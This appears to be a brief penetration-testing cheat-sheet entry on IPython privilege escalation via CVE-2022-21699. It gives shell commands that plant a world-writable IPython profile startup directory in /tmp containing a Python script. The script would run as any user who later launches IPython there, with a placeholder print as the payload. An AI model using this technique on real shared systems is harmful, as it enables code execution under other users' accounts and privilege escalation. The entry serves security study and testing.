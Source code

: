 ```yaml
---
title: IPython Privilege Escalation
desc: Interective Python (IPython) is a command shell for interective computing in multiple programming languages.
tags: [IPython, Python, PrivEsc, Privilege]
alts: []
render_with_liquid: false
---
```


## [CVE-2022-21699](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x){:target="_blank"}

```sh
# -m: file mode (rwx)
mkdir -m 777 /tmp/profile_default
mkdir -m 777 /tmp/profile_default/startup
echo 'print("stealing your private secrets")' > /tmp/profile_default/startup/exploit.py
```